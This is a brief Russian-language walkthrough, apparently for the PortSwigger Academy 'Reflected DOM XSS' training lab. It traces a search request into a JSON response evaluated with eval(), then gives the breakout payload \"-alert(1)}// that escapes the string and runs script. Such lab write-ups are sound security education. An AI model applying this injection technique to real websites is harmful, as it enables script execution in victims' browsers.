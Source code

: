 введем тестовую строку в поисковый запрос `qwe123`

перейдем в прокси хттп хистори и заметим 2 примечательных запроса
```
GET /resources/js/searchResults.js
```
в котором используется функция `eval()`


а так же второй запрос
```
GET /search-results?search=qwe123
```
где у нас идет ответ в json квери
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/9.%20Reflected%20DOM%20XSS/pics%20for%20walktrough/1.png)

сделав несколько запросов заметим, что при добавлении символов появлется `"` в начале ответа
```
GET /search-results?search=/alert(1)
```
`{"results":[],"searchTerm":"/alert(1)"}`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/9.%20Reflected%20DOM%20XSS/pics%20for%20walktrough/2.png)
выйдем из этих кавычек введя в форму поиска
```
\"-alert(1)}//
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/9.%20Reflected%20DOM%20XSS/pics%20for%20walktrough/3.png)

на что получим уведомление об успешном выполнении работы

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/9.%20Reflected%20DOM%20XSS/pics%20for%20walktrough/5.png)

